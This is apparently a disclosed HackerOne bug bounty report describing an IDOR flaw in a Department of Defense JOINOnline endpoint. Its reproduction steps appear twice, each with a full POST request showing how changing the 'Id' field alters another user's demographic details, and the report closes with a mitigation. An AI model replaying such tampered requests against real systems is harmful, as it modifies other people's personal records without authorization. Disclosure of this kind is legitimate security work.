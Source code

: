 # IDOR : Modify other users demographic details

## Report Details
- **Report ID**: 2586662
- **URL**: https://hackerone.com/reports/2586662
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-07-04T18:22:32.154Z
- **Disclosed**: 2024-07-19T15:05:05.164Z

## Reporter
- **Username**: prakhar0x01
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hii Triager,

Through researching on the DoD, I discovered an IDOR Vulnerability that allows a malicious user to modify other user's demographic details.

Vulnerable domain : `www.█████████`

### Vulnerable Endpoint-
`/JOINOnline/Board/SubmitDoc`

For testing, I created two accounts with `user-id:` `1328` & `1327`, you can test with them.

### Required 2 test Accounts:
User-A
User-B

## Steps to Reproduce
1 - Login as User-A & User-B, Fill in the required details at: `https://www.█████/JOINOnline/Board/BoardIntro/1021/<ID>/False`
2 - Now, from the User-A account navigate to `Biographical-Info`, Update any information, and Intercept the Request.

```
POST /JOINOnline/Board/SubmitDoc HTTP/1.1
Host: www.█████████
Cookie: {YOUR-COOKIES}
...snip...
Connection: close

------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="UserId"

268
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="Id"

1328
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="BoardId"

1021
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2800"

Test
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2801"

Test
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2802"

Test
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2803"

Test
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2804"

12/12/2001
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2805"

167
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2806"

80
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2807"

Male
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="__RequestVerificationToken"

{VERIFICATION-TOKEN}
------WebKitFormBoundaryrQSrSuOi1l18BB2E--
```

3 -  Change the `Id` parameter value, for eg. in this case you can change `1328` to `1327`(User-B numeric-id)
4 - You can successfully able to change the `User-B` details

## Proof Of Concept:
████████

## Impact

- IDOR

## System Host(s)
www.███

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1 - Login as User-A & User-B, Fill in the required details at: `https://www.████████/JOINOnline/Board/BoardIntro/1021/<ID>/False`
2 - Now, from the User-A account navigate to `Biographical-Info`, Update any information, and Intercept the Request.

```
POST /JOINOnline/Board/SubmitDoc HTTP/1.1
Host: www.█████
Cookie: {YOUR-COOKIES}
...snip...
Connection: close

------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="UserId"

268
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="Id"

1328
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="BoardId"

1021
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2800"

Test
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2801"

Test
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2802"

Test
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2803"

Test
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2804"

12/12/2001
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2805"

167
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2806"

80
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="que2807"

Male
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="__RequestVerificationToken"

{VERIFICATION-TOKEN}
------WebKitFormBoundaryrQSrSuOi1l18BB2E--
```

3 -  Change the `Id` parameter value, eg. in this case you can change `1328` to `1327`(User-B numeric-id)
4 - You can successfully able to change the `User-B` details

## Suggested Mitigation/Remediation Actions
- Effectively Tied the `User-Ids` & other `numeric Id` with the user Session.



## Attachments
No attachments

